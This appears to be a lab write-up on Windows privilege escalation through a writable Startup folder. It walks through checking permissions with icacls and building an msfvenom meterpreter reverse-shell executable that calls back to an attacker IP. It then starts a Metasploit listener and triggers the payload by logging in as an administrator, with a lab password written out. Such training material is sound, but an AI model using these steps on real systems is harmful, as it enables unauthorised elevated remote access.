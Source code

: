 # Startup Applications

We can run icacls.exe to check and see if our current user has write access to the "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup" directory. If this privilege exists we can add a malicous executable that will give us an elevated shell once an user with administrator privileges logs on to the target machine.

## Step 1: Detection

We can use icacls.exe to examine the permissions of the Startup directory for programs.

Note: PowerUp.ps1 will not detect this vulnerability

```bash
icacls.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"
```

We can see BUILTIN\Users have full control (F)

![icacls](images/icacls.png)

## Step 2: Exploitation

We are going to generate a payload using `msfvenom` that will allow us to exploit this vulnerability with a reverse shell.

Once an admin user logs onto the machine we will get a reverse shell with elevated privileges.

We will log-in as a a user with administrator privileges to simulate the exploit execution.

### Start Meterpreter Shell

```bash
┌──(vagrant㉿kali)-[~/Documents/THM]
└─$ msfconsole -q
msf6 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost 10.18.48.44
lhost => 10.18.48.44
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.18.48.44:4444
```

### Generate Reverse Shell Payload

```bash
┌──(vagrant㉿kali)-[~/Documents/THM]
└─$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.18.48.44 LPORT=4444 -f exe -o x.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of exe file: 73802 bytes
Saved as: x.exe
```

### Upload the Payload and Execute

Save the x.exe payload to C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup

![save1](images/save1.png)

![save2](images/save2.png)

Log off as the `user` account and logon as the administrator user

```bash
┌──(vagrant㉿kali)-[~/Documents/THM]
└─$ xfreerdp /v:10.10.48.44 /u:TCM /p:Hacker123 +clipboard
```

This triggers the x.exe malicious payload in the Startup directory and results in a reverse shell on our Meterpreter listener with elevated privileges.

![shell](images/shell.png)
